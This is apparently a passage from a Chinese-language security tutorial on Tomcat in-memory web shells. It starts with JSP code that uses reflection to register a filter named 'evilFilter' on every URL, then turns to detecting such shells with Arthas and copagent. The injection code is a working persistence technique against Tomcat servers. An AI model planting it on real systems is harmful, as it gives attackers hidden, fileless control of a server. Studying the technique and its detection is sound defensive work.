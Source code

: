```jsp
  filterDef.setFilterClass(filter.getClass().getName());
  standardContext.addFilterDef(filterDef);

  Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
  constructor.setAccessible(true);
  ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

  Field filterConfigsField = StandardContext.class.getDeclaredField("filterConfigs");
  filterConfigsField.setAccessible(true);
  Map filterConfigs = (Map) filterConfigsField.get(standardContext);
  filterConfigs.put("evilFilter", filterConfig);

  FilterMap filterMap = new FilterMap();
  filterMap.addURLPattern("/*");
  filterMap.setFilterName("evilFilter");
  filterMap.setDispatcher(DispatcherType.REQUEST.name());
  standardContext.addFilterMapBefore(filterMap);

  out.println("Inject done");
%>



```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227215628922.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227215641112.png)

而且不需要指定jsp路径，因为注册的filterMap的pattern为`/*`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227215956900.png)



## 排查内存马

#### arthas

项目链接：https://github.com/alibaba/arthas

我们可以利用该项目来检测我们的内存马

```
java -jar arthas-boot.jar --telnet-port 9998 --http-port -1
```

这里也可以直接 `java -jar arthas-boot.jar`

#### copagent

